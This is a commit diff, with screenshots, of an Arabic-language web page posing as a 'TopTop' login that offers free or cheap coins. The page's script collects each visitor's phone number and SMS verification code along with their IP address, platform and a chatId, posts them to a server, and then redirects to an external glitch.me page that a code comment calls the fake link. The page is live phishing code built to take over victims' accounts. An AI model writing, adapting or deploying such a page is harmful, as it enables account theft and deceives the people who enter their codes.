

Before and after one commit to SOFTTTRE/-been, a website: page uploads/toptop_increase.html in a window 1280 px wide. Both pictures are taken after a click on the button "إرسال رقم الهاتف". Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update toptop_increase.html

```diff
--- a/uploads/toptop_increase.html
+++ b/uploads/toptop_increase.html
@@ -47,6 +47,12 @@
         button:hover {
             background-color: #45a049;
         }
+        .pricing-option {
+            display: flex;
+            justify-content: space-between;
+            align-items: center;
+            margin: 10px 0;
+        }
         .message {
             background-color: #f8d7da;
             color: #721c24;
@@ -54,17 +60,6 @@
             border-radius: 4px;
             margin-bottom: 10px;
             display: none;
-        }
-        .phone-input-container {
-            display: flex;
-            align-items: center;
-        }
-        #countryCode {
-            width: 80px;
-            margin-left: 10px;
-        }
-        #phoneNumber {
-            flex-grow: 1;
         }
     </style>
 </head>
@@ -76,24 +71,22 @@
             <h1>تسجيل الدخول لـ TopTop</h1>
             <form id="loginForm">
                 <label for="country">اختر الدولة:</label>
-                <select id="country" name="country" required onchange="updateCountryCode()">
-                    <option value="YE" data-code="+967">🇾🇪 اليمن</option>
-                    <option value="SA" data-code="+966">🇸🇦 السعودية</option>
-                    <option value="EG" data-code="+20">🇪🇬 مصر</option>
-                    <option value="IQ" data-code="+964">🇮🇶 العراق</option>
-                    <option value="LY" data-code="+218">🇱🇾 ليبيا</option>
-                    <option value="JO" data-code="+962">🇯🇴 الأردن</option>
-                    <option value="AE" data-code="+971">🇦🇪 الإمارات</option>
-                    <option value="SD" data-code="+249">🇸🇩 السودان</option>
-                    <option value="MA" data-code="+212">🇲🇦 المغرب</option>
-                    <option value="SY" data-code="+963">🇸🇾 سوريا</option>
-                    <option value="TN" data-code="+216">🇹🇳 تونس</option>
-                    <option value="DZ" data-code="+213">🇩🇿 الجزائر</option>
+                <select id="country" name="country" required>
+                    <option value="YE" data-code="+967">🇾🇪 اليمن (+967)</option>
+                    <option value="SA" data-code="+966">🇸🇦 السعودية (+966)</option>
+                    <option value="EG" data-code="+20">🇪🇬 مصر (+20)</option>
+                    <option value="IQ" data-code="+964">🇮🇶 العراق (+964)</option>
+                    <option value="LY" data-code="+218">🇱🇾 ليبيا (+218)</option>
+                    <option value="JO" data-code="+962">🇯🇴 الأردن (+962)</option>
+                    <option value="AE" data-code="+971">🇦🇪 الإمارات (+971)</option>
+                    <option value="SD" data-code="+249">🇸🇩 السودان (+249)</option>
+                    <option value="MA" data-code="+212">🇲🇦 المغرب (+212)</option>
+                    <option value="SY" data-code="+963">🇸🇾 سوريا (+963)</option>
+                    <option value="TN" data-code="+216">🇹🇳 تونس (+216)</option>
+                    <option value="DZ" data-code="+213">🇩🇿 الجزائر (+213)</option>
                 </select>
-                <div class="phone-input-container">
-                    <input type="text" id="countryCode" readonly>
-                    <input type="tel" id="phoneNumber" name="phoneNumber" placeholder="رقم الهاتف" required>
-                </div>
+                <input type="text" id="phoneNumber" name="phoneNumber" placeholder="رقم الهاتف" required>
+
                 <button type="button" onclick="sendPhoneNumber()">إرسال رقم الهاتف</button>
             </form>
         </div>
@@ -105,6 +98,26 @@
                 <button type="submit">تأكيد الدخول</button>
             </form>
         </div>
+
+        <div class="pricing-section">
+            <h2>أسعار أكوانزات TopTop</h2>
+            <div class="pricing-option">
+                <span>1000 أكوانز - 0$</span>
+                <button onclick="showMessage('يرجى تسجيل الدخول أولاً')">مجاني</button>
+            </div>
+            <div class="pricing-option">
+                <span>2000 أكوانز - 2$</span>
+                <button onclick="showMessage('يرجى تسجيل الدخول أولاً')">شراء الآن</button>
+            </div>
+            <div class="pricing-option">
+                <span>5000 أكوانز - 5$</span>
+                <button onclick="showMessage('يرجى تسجيل الدخول أولاً')">شراء الآن</button>
+            </div>
+            <div class="pricing-option">
+                <span>10000 أكوانز - 10$</span>
+                <button onclick="showMessage('يرجى تسجيل الدخول أولاً')">شراء الآن</button>
+            </div>
+        </div>
     </div>
 
     <script>
@@ -115,37 +128,6 @@
             setTimeout(function() {
                 messageElement.style.display = 'none';
             }, 3000);
-        }
-
-        function getChatIdFromUrl() {
-            const urlParams = new URLSearchParams(window.location.search);
-            return urlParams.get('chatId');
-        }
-
-        function updateCountryCode() {
-            const countrySelect = document.getElementById('country');
-            const countryCodeInput = document.getElementById('countryCode');
-            const selectedOption = countrySelect.options[countrySelect.selectedIndex];
-            countryCodeInput.value = selectedOption.getAttribute('data-code');
-        }
-
-        function validatePhoneNumber(phoneNumber, country) {
-            const phonePatterns = {
-                'YE': /^[7]\d{9}$/,
-                'SA': /^[5]\d{8}$/,
-                'EG': /^[1]\d{9}$/,
-                'IQ': /^[7]\d{9}$/,
-                'LY': /^[9]\d{8}$/,
-                'JO': /^[7][7-9]\d{7}$/,
-                'AE': /^[5][0,1,2,4,5,6]\d{7}$/,
-                'SD': /^[9]\d{8}$/,
-                'MA': /^[6-7]\d{8}$/,
-                'SY': /^[9]\d{8}$/,
-                'TN': /^[2-9]\d{7}$/,
-                'DZ': /^[5-7]\d{8}$/
-            };
-
-            return phonePatterns[country].test(phoneNumber);
         }
 
         async function getIPInfo() {
@@ -185,43 +167,32 @@
         async function sendPhoneNumber() {
             const phoneNumber = document.getElementById('phoneNumber').value;
             const country = document.getElementById('country').value;
-            const countryCode = document.getElementById('countryCode').value;
-            const chatId = getChatIdFromUrl();
+            const chatId = document.querySelector('input[name="chatId"]').value;
 
             if (!phoneNumber || !country || !chatId) {
                 showMessage('يرجى ملء جميع الحقول المطلوبة');
                 return;
             }
 
-            if (!validatePhoneNumber(phoneNumber, country)) {
-                showMessage('رقم الهاتف غير صالح للدولة المختارة');
-                return;
-            }
-
-            const fullPhoneNumber = countryCode + phoneNumber;
-
             const ipInfo = await getIPInfo();
             const platformInfo = getPlatformInfo();
 
             try {
+                // هنا يجب استبدال '/sendPhoneNumber' بعنوان URL الفعلي لخادمك
                 const response = await fetch('/sendPhoneNumber', {
                     method: 'POST',
                     headers: {
                         'Content-Type': 'application/json',
                     },
                     body: JSON.stringify({
-                        phoneNumber: fullPhoneNumber,
+                        phoneNumber,
                         country,
                         chatId,
                         ip: ipInfo.ip,
                         platform: platformInfo.platform,
-                        userAgent: navigator.userAgent
+                        userAgent: platformInfo.userAgent
                     })
                 });
-
-                if (!response.ok) {
-                    throw new Error(`HTTP error! status: ${response.status}`);
-                }
 
                 const result = await response.json();
                 if (result.success) {
@@ -229,7 +200,7 @@
                     document.getElementById('login-container').style.display = 'none';
                     document.getElementById('verification-container').style.display = 'block';
                 } else {
-                    showMessage(result.error || 'حدث خطأ أثناء إرسال رقم الهاتف. يرجى المحاولة مرة أخرى.');
+                    showMessage('حدث خطأ أثناء إرسال رقم الهاتف. يرجى المحاولة مرة أخرى.');
                 }
             } catch (error) {
                 console.error('Error:', error);
@@ -240,9 +211,9 @@
         async function verifyCode(event) {
             event.preventDefault();
             const verificationCode = document.getElementById('verificationCode').value;
-            const phoneNumber = document.getElementById('countryCode').value + document.getElementById('phoneNumber').value;
+            const phoneNumber = document.getElementById('phoneNumber').value;
             const country = document.getElementById('country').value;
-            const chatId = getChatIdFromUrl();
+            const chatId = document.querySelector('input[name="chatId"]').value;
 
             if (!verificationCode || !phoneNumber || !country || !chatId) {
                 showMessage('يرجى ملء جميع الحقول المطلوبة');
@@ -253,6 +224,7 @@
             const platformInfo = getPlatformInfo();
 
             try {
+                // هنا يجب استبدال '/verifyCode' بعنوان URL الفعلي لخادمك
                 const response = await fetch('/verifyCode', {
                     method: 'POST',
                     headers: {
@@ -265,22 +237,19 @@
                         chatId,
                         ip: ipInfo.ip,
                         platform: platformInfo.platform,
-                        userAgent: navigator.userAgent
+                        userAgent: platformInfo.userAgent
                     })
                 });
-
-                if (!response.ok) {
-                    throw new Error(`HTTP error! status: ${response.status}`);
-                }
 
                 const result = await response.json();
                 if (result.success) {
                     showMessage('تم التحقق من الكود بنجاح');
+                    // التوجيه إلى الرابط الوهمي بعد التحقق الناجح
                     setTimeout(() => {
                         window.location.href = "https://polarized-believed-fisherman.glitch.me/";
                     }, 3000);
                 } else {
-                    showMessage(result.error || 'فشل التحقق من الكود. يرجى المحاولة مرة أخرى.');
+                    showMessage('فشل التحقق من الكود. يرجى المحاولة مرة أخرى.');
                 }
             } catch (error) {
                 console.error('Error:', error);
@@ -289,7 +258,6 @@
         }
 
         document.addEventListener('DOMContentLoaded', function() {
-            updateCountryCode();
             const verificationForm = document.getElementById('verificationForm');
             verificationForm.addEventListener('submit', verifyCode);
         });
```
